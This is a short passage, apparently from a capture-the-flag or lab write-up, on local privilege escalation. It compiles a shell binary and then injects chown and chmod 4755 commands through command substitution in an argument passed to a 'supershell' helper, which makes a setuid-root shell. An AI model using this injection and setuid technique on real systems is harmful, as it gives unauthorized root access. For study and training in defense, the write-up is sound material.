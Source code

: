 Compiling:
```markdown
gcc shell.c -o shell
```

Give ownership to root and set the _setuid bit_ with the supershell:
```markdown
/usr/local/bin/supershell "/bin/ls /$(chown root:root /tmp/shell)"

/usr/local/bin/supershell "/bin/ls /$(chmod 4755 /tmp/shell)"
```

Now we can execute _./shell_ and it will start as root!
